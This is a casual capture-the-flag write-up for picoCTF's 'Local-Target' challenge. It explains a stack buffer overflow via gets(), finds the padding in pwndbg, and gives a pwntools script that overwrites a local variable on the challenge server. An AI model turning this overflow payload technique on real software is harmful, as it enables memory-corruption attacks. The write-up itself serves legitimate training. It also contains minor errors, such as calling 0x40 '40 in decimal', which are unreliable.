 ##Write UP PicoCTF Challenge :book

#local-target
hi!, i will give you write up from picoCTF PWN challenge "Local-Target"
![Source Code](./img/1.png)
#solve
from SC we can see that the program is asking for input, and  using gets(). We know gets() its not a secure cuz You can input more characters than the limit. We see the local variabel num is 64. The idea from this chall is, you should to overwrite the num variabel with integer 65 and you got the flag. Now let's debug using gdb, i using pwndbg, one of the extension from gdb. 
![Anylisis GDB](img/2.png)
from dynamic anylisis i suggest value of num saved in `rbp-0x8`. after the mov let's see whats the fill of `rbp-0x8`. 
![Anylisis 2](img/3.png)
let's see, my suggest correct, the fill is `rbp-0x8` is `0x0000000000000040` in decimal is 40. next let's search padding before change the variabel, i try to input `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL` for see whats wrong in the register `rbp-0x8`.
![gets](img/1.png)
from image we know, program always ask the user input after gets() function, so for next try, breakpoint at gets(), it's save your time.
![input](img/5.png)
Let's see after input, check the register `rbp-0x8` , and see the value turn out to change `0x4848484847474747` this value is little endian, in char, `0x47` is `G` and `0x48` is `H` , so we know the padding until  `FFFF`, so the padding is 24. After know padding you only need to write the value you want to overwrite, overwite the value using `0x0000000000000041`.
#make script to solve
```
    #!/usr/bin/env python3
    from pwn import *
    io = remote('saturn.picoctf.net', 59384) #it if you remote target
    #io = process('./local-target') #local target
    print('[*] solver by Lanz')
    #create payload
    payload = b'A' * 24 #padding
    payload += p64(0x0000000000000041) #variabel overwrite
    io.recvuntil(b':') #this read a string until :
    io.sendline(payload) #this sendline your payload

    io.interactive()
        
```

#let's TRY (you should believe you solver is solved the challenge, and learn about dynamic anylisis mwhehehe)
![solver](img/6.png)
let's see it's work, it's not the correct flag, so find the correct flag hehe, i just give you how to solve :P.

~pwn is art code, if you just can solve the chall from find the write up for the correct flag, your is stupid hehe.
